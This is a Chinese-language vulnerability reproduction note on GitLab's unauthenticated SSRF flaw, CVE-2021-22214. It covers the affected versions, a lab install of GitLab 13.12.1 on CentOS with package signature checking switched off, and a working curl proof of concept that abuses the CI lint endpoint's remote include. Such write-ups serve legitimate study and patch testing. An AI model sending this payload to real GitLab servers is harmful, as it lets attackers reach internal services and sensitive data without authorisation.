


## GitLab前台SSRF漏洞

## 漏洞描述

GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的Web服务。GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。 

## 漏洞影响

> GitLab CE/EE >=10.5

## 漏洞复现

**1、环境搭建**

以CentOS为例，先添加gitlab更新源。

```
[gitlab-ce]name=Gitlab CE Repositorybaseurl=https://mirrors.tuna.tsinghua.edu.cn/gitlab-ce/yum/el$releasever/gpgcheck=0enabled=1
```

添加更新源后使用命令yum makecache缓存更新源数据。

使用如下命令可以得到当前更新源中可安装所有的gitlab版本

```
yum list gitlab-ce --showduplicates|sort -r
```



使用yum安装指定版本，例如13.12.1

yum install gitlab-ce-13.12.1-ce.0.el7

使用命令gitlab-ctl reconfigure即可默认配置安装gitlab。

**2、漏洞复现**

直接运行poc，remote后面即为ssrf访问的地址。

```
curl -s --show-error -H 'Content-Type: application/json' https://example.gitlab.com/api/v4/ci/lint --data '{ "include_merged_yaml": true, "content": "include:\n  remote: http://x.x.x.x:port/api/v1/targets?test.yml"}'
```

